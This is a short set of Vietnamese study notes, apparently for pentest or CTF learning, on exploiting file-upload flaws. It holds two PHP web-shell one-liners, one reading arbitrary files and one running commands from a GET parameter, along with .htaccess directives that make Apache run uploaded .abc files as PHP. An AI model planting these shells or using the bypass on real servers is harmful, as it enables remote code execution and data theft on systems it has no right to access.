 # Kiến thức cần biết

## Common command PHP in File upload
```php
<?php echo file_get_contents('/path/to/target/file'); ?>

<?php echo system($_GET['command']); ?>
```

## MIME type: 

Tham khảo: [mine-type](https://www.baeldung.com/linux/file-mime-types)

## File .htaccess:

```.htaccess``` là tập tin cấu hình nhỏ được sử dụng bởi Apache HTTP Server (một trong những web server phổ biến nhất). Nó cho phép người quản trị hoặc lập trình viên thay đổi cách mà Apache xử lý thư mục hiện tại và các thư mục con mà không cần truy cập file cấu hình chính ```httpd.conf```.

- Cách dùng ```.htaccess``` để bypass upload:

  - Giả sử bạn không thể upload file .php, nhưng có thể upload .abc, ví dụ shell.abc

  - Thông thường server không xử lý .abc như PHP. Nhưng bạn có thể upload thêm 1 file .htaccess có nội dung:

```Addtype application/x-httpd-php .abc```

    • Điều này đảm bảo Apache: "Từ giờ hãy xử lý file .abc như file .php"

Hoặc có thể là:

```bash
<FilesMatch "\.abc$">
    SetHandler application/x-httpd-php
</FilesMatch>
```

**MỘT SỐ LƯU Ý**:

|🔥 Không phải server nào cũng dùng Apache  |	.htaccess chỉ áp dụng cho Apache|
|🔐 Một số server vô hiệu hóa AllowOverride  |	nghĩa là .htaccess sẽ bị bỏ qua|
|☠️ Không nên dùng .htaccess trên production | nếu không cần	Dễ gây lỗ hổng nếu sai config|


## Some Bypass Technique
